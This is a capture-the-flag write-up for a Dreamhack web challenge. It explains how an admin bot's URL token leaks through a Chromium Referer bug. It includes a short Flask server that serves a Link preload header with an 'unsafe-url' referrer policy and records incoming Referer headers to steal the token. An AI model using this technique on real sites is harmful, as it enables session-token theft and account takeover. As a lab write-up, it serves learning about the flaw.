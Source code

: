 ```yaml
---
title: ShareProfile Revenge
date: 2025-10-13 10:00:00 +0800
categories: [Cybersecurity]
tags: [dreamhack, web]
description: Level 5 web exploitation challenge on Dreamhack.io
---
```


### The Challenge
[https://dreamhack.io/wargame/challenges/2348](https://dreamhack.io/wargame/challenges/2348)

![](/assets/img/posts/shareprofile-revenge/img1.png)
*Challenge description reveals... NOTHING*

Reading through `app.py`, I need to become admin to get the flag.

Users are authenticated in a strange way on the index page (which also has the "XSS" vector).

When users view the "XSS" content, their token is in the URL query parameters.

This page is also the page which the admin bot visits when you send a report.

```py
@app.route("/")
def index():
    db = get_db()
    profiles = db.execute("SELECT username, description, image FROM profiles ORDER BY id DESC").fetchall()

    token = request.args.get("token")
    if token and verify_token(token):
        return render_template("index.html", profiles=profiles, is_logged_in=True)
    return render_template("index.html", profiles=profiles, is_logged_in=False)
```

```html
<div class="profile">
    <img src="{{ profile.image }}" alt="Profile Image" class="profile-image">
    <div class="profile-info">
        <h2 class="profile-username">{{ profile.username }}</h2>
        <p class="profile-description">{{ profile.description }}</p>
    </div>
</div>
```

No obvious XSS here. Through some prompting and thinking, I came up with an idea - what if we could put our own URL in `profile.image`, and get the admin's token through the `Referer` header?

Usually, it's not possible for cross-origin requests to include the URL query string in the `Referer` header due to a strict default `referrer-policy`.

However, the version of chromedriver used is actually vulnerable!

```dockerfile
# install google chrome
RUN wget -O ./google-chrome-stable.deb https://mirror.cs.uchicago.edu/google-chrome/pool/main/g/google-chrome-stable/google-chrome-stable_130.0.6723.116-1_amd64.deb && \
    apt-get install -y ./google-chrome-stable.deb && \
    rm ./google-chrome-stable.deb

# install chromedriver
RUN wget -O ./chromedriver.zip https://storage.googleapis.com/chrome-for-testing-public/130.0.6723.116/linux64/chromedriver-linux64.zip && \
    unzip chromedriver.zip -d /usr/local/bin/ && \
    mv /usr/local/bin/chromedriver-linux64/chromedriver /usr/local/bin/chromedriver && \
    rm ./chromedriver.zip
```

A quick search for "chromium bug query string leak" brought me to this chromium report: [https://issues.chromium.org/issues/415810136](https://issues.chromium.org/issues/415810136)

Solving was straightforward after finding this vuln. I set `profile.image` to my own flask app running this code:

```py
stuffz = []

@app.route('/image')
def image():
    response = make_response()
    response.headers['Link'] = '<https://my-website.com/bruh>; rel="preload"; as="image"; referrerpolicy="unsafe-url"'
    return response

@app.route("/stuff")
def stuff():
    return str(stuffz)

@app.route("/bruh")
def bruh():
    print(request.headers)
    stuffz.append(request.headers.get("Referer", "None"))
    return 'ok'
```

![](/assets/img/posts/shareprofile-revenge/img2.png)
*Win!*